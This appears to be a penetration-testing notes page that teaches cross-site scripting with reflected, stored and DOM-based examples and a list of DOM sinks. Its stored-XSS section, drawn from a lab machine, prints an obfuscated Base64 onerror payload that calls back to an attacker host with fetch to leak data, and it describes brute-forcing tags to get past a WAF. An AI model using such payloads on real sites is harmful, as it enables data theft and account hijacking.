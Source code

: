 ```yaml
---
description: <script>
---
```


# Cross-Site Scripting

Cross-Site Scripting, or XSS, is a vulnerability that would allow attackers to exploit the interactions that **other users** have with an application. In short, it can allow us to impersonate and perform actions as another user, steal information and in some cases, gain RCE.

The most common way of testing if XSS is present on a website is to call the Javascript alert function. For example, the script tags of HTML can be used :`<script>alert(1)</script>`. \
The image below shows an example of what would pop out.

<figure><img src="../.gitbook/assets/image (1) (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

## How it Works

Browsers and websites allow users to interact with them and perform actions through Javascript. XSS would work via injecting malicious Javascript code to execute on a user's browser. Basically, **scripting across the website**.

There are 3 types of XSS:

1. Reflected XSS
2. Stored XSS
3. DOM Based XSS

### Reflected XSS

Reflected XSS is the simplest form of the exploit. This occurs when a malicious script is reflected off a web application and onto the victim's browser. This script is normally activated through a link or action on the website and would be redirected to the next user.

<figure><img src="../.gitbook/assets/image (11) (3) (2).png" alt=""><figcaption></figcaption></figure>

An example would be as follows:

* Suppose we have a website that had a URL that displayed a user-controlled term like http://example.com?search=test
* This search term would cause this to appear on the page:
  * `<p>You searched for: test </p>`
* Using Reflected XSS, we can construct a malicious search link that would trigger a pop-up to appear on screen.&#x20;
* Assuming the website does not have any filters, we can input **http://example.com?search=\<script>alert(1)\</script>** as the URL.
* When any client enters this link, our malicious script would execute on their end and the pop-up would show up in their browsers.
* This works because the rendering of HTML would show this:
  * `<p>You searched for: <script>alert(1)</script></p>`
  * The script tags allow for an 'escape' from the paragraph tags, and we can execute Javascript code within the tags.

Reflected XSS attacks still rely on the **victim user to make a request they control**. We still need the victim to perform a specific action in order to exploit this. This could be through sending phishing links or putting links on a website we control.

The reliance on the user makes the impacts of XSS less severe compared to the other forms of XSS.

### Stored XSS

Stored XSS means that the malicious script is stored on the website itself. Then, everytime a user visits the page that the script is on, it would execute. Stored XSS has much more severe impacts, as it only requires users to go visit the site. This can be in the form of a blog post comment, editing the website page to have hidden Javascript, etc.

<figure><img src="../.gitbook/assets/image (2) (3) (2).png" alt=""><figcaption></figcaption></figure>

Here's an example of XSS from the HTB machine, Extension:

After enumeration of the website, we have identified that there is a stored XSS vulnerability in the 'Report Issues' function of the Gitea instance. The victim has been found to visit the Issues tab of the Gitea instance from time to time.&#x20;

This was the payload found to work: `test<test><img SRC="x" onerror=eval.call${"eval\x28atobZmV0Y2goImh0dHA6Ly8xMC4xMC4xNC41LyIp\x29"}>`

How this payload works is through rendering an **image** tag and having a script execute on an **event** called 'onerror', which means if the image fails to load, it would load the script. The scriptis calling an **eval** function which has a Base64 encoded command using **fetch** to connect back to the attacker machine on port 80.

When inputted, the victim would view the Issues and be served this payload. This would result in the victim's browser making a callback to the attacker machine. On the attacker machine, the following callback is received:

<figure><img src="../.gitbook/assets/image (1) (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

This confirms that the XSS is working properly. For this machine, the payload can be modified to include information about a hidden directory that only the victim can access:

<figure><img src="../.gitbook/assets/image (5) (2) (2).png" alt=""><figcaption></figcaption></figure>

Stored XSS is much more dangerous because it stores the script on the page itself and exploiting every user that visits it. In the above example, XSS was used to steal information about a directory that only the user could visit. In other cases, stuff like authorisation cookies or passwords can be stolen by attackers.

### DOM-Based XSS

DOM XSS arises when Javascript takes some input from a user-controlled source and processes it insecurely.&#x20;

> Document Object Model (DOM) is a programming interface for web pages, defining the structure of a document and how the document is accessed and manipulated. A website can use Javascript to do something, but uses DOM to access the document and the relevant elements. DOM is structured like a hiearchy tree, with a root element and other elements that are children of the root node.
>
> More can be read here:
>
> [https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction](https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction)

DOM XSS arises when data is passed to something called a **sink**, which is basically a function that supports **dynamic code execution.** This can be a function like **eval,** for example. Malicious Javascript code can be passed to this sink and allow for the execution of Javascript used to hijack other accounts.

Here are some sinks that can be used for DOM XSS:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

These functions **are not limited to only XSS,** but can also be used for other DOM exploits, such as **open redirection,** through exploiting taint flow vulnerabilities.&#x20;

There are methods to test the HTML and Javascript sinks that are within a website that require the use of browser inspector tools, which would involve looking at how data is parsed by the function. First, we would need to identify a potential source (input location) whereby our input is processed via the sink. Then we can test them as follows:

* HTML Sinks
  * Input HTML strings within a potentially vulnerable sink.
  * Check the page source and try to find out string.
  * Attempt ot break out of the HTML tags to execute our code.&#x20;
* Javascript execution sinks
  * Sometimes, we cannot see our input anywhere within the DOM, so we can't search for it.&#x20;
  * Use the Javascript Debugger to determine whether and how our input is sent to a sink.
  * Add a break point and follow how the source's value is read, then track the variables to see if they are passed to a sink.&#x20;
  * Once we have found the sink, attempt to execute malicious Javascript by tweaking our payload.

**Here's an example of exploiting DOM-based XSS:**

Suppose we have this website that has a dashboard customised based on the username. The username is encoded **in the URL** and used directly on the page.

```markup
<html>
<head>
<title>Custom Dashboard </title>
...
</head>
Main Dashboard for
<script>
	var pos=document.URL.indexOf("context=")+8;
	document.write(document.URL.substring(pos,document.URL.length));
</script>
...
</html>
```

We can see that the vulnerable sink used is **document.write( ),** and the **source** would be a **context** parameter we pass to the website. We can then embed a malicious script in the URL like this: `http://example.com/dashboard.html#context=<script>alert(1)</script>`.&#x20;

A victim would then need to click this link. When the link is clicked and the browser starts building the DOM of the page, the browser would use the URL provided (in this case, the malcious link above) and run it. The malicious context parameter would then be extracted and the HTML is updated to have our code. The browser then runs this code and calls the alert function, thus making the XSS possible.&#x20;

## Payloads

XSS is a common vulnerablity and there are often measures to prevent it's execution. For example, a website could restrict the usage of **events** or **\<script>** tags to prevent users from exploiting it. However, there are always ways to bypass this.

In basic cases, websites can allow for \<script> tags to be used as input and allow for the embedding of HTML directly on the page. However, if the website has a WAF that does not allow this, we can brute force the possible tags possible.&#x20;

Event attributes can be used in conjunction with tags to deliver the payload, such as **onerror**. Again, this can be brute forced. A lot of XSS payloads out there are built to bypass WAF detection and execute our payload. I normally use Portswigger's cheat sheet to find all the possible tags and events for each browser.

> HTML Event attributes allow events to trigger actions on a browser, like starting Javascript whne a user clicks on an element. For example, using the \<img src="x" onerror=alert(1)> payload would attempt to render an image, which would always result in an error in this case. This would trigger the alert(1) to happen.

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

There are loads of payload repositories out there, so I'm not going to make one here.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection" %}
